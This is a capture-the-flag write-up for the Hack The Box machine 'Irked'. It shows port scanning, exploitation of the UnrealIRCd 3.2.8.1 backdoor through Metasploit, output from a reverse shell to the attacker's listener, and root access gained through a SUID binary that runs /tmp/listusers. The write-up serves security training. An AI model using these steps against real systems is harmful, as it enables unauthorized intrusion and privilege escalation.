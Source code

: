 # Irked
### Info:

OS: Linux <br>
IP: 10.10.10.117 <br>
Difficulty : easy <br>

### Enumeration:
```nmap  -p0-10000 10.10.10.117 -T5``` <br>

gives us the results : <br>

```
Nmap scan report for 10.10.10.117
Host is up (0.72s latency).
Not shown: 9996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
6697/tcp open  ircs-u
8067/tcp open  infi-async

Nmap done: 1 IP address (1 host up) scanned in 884.18 seconds
```
Seeing irc service at port 6697 we use hexchat client which gives us:
```
Your host is irked.htb, running version Unreal3.2.8 
```
### Exploitation:
we search for that version on msfconsole : 
```
msf > search Unreal
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       good       Unreal Tournament 2004 "secure" Overflow (Win32)
```

Using `exploit/unix/irc/unreal_ircd_3281_backdoor` :
```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
[*] Started reverse TCP double handler on 10.10.16.16:1337 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo fyw93WRBr4nLaTxv;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "fyw93WRBr4nLaTxv\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.16.16:1337 -> 10.10.10.117:59603) at 2019-01-10 15:54:18 +0530
/bin/bash -i
bash: cannot set terminal process group (637): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ 
```
Gives us the shell.

### Privilege Escalation:
Running `find / -perm -u=s -type f 2>/dev/null` :
```
ircd@irked:~/Unreal3.2$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
We find a non-standard linux binary : `/usr/bin/viewuser` <br>
```
/usr/bin/viewuser
(unknown) :0           2019-01-08 16:39 (:0)
sh: 1: /tmp/listusers: not found
This application is being devleoped to set and test user permissions
It is still being actively developed

```
Making `/tmp/listusers` and putting `shellcode (/bin/sh)` and making it executable, <br>and then running `/usr/bin/viewuser` we get the root

### Things Learned :

Complete Port scanning 

Using exploit unreal_ircd_3281_backdoor

Basic linux Privilege Escalation
